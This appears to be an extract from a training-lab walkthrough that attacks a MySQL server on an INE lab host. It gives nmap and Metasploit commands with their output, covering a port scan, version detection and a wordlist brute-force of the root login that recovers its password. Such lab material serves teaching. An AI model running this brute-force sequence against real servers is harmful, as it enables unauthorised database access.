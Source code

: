 ```bash
# === PHASE 2: SERVICE DISCOVERY ===
nmap demo.ine.local
```
**Expected Output:**
```
Nmap scan report for demo.ine.local (192.89.45.3)
Host is up (0.00021s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:c0:59:2d:03 (Unknown)
```
**Analysis**: ✅ MySQL service detected on default port 3306

```bash
# === PHASE 3: VERSION DETECTION ===
msfconsole -q
use auxiliary/scanner/mysql/mysql_version
set RHOSTS demo.ine.local
run
```
**Expected Output:**
```
[*] 192.89.45.3:3306      - Scanning IP: 192.89.45.3
[+] 192.89.45.3:3306      - 192.89.45.3:3306 is running MySQL 5.5.61-0ubuntu0.14.04.1 (protocol 10)
[*] 192.89.45.3:3306      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
**Analysis**: ✅ MySQL 5.5.61 on Ubuntu 14.04 (potentially vulnerable older version)

```bash
# === PHASE 4: AUTHENTICATION ATTACK ===
use auxiliary/scanner/mysql/mysql_login
set RHOSTS demo.ine.local
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
run
```
**Expected Output:**
```
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Found remote MySQL version 5.5.61
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Trying username:'root' with password:''
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Trying username:'root' with password:'root'
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Trying username:'root' with password:'admin'
[*] 192.89.45.3:3306 - 192.89.45.3:3306 - Trying username:'root' with password:'twinkle'
[+] 192.89.45.3:3306 - 192.89.45.3:3306 - Success: 'root':'twinkle'
[*] 192.89.45.3:3306 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
**Critical Success**: 🎯 **CREDENTIALS FOUND: root:twinkle**

### 🗄️ Example 2: Comprehensive Database Information Gathering
**Scenario**: Extracting detailed server configuration and capabilities
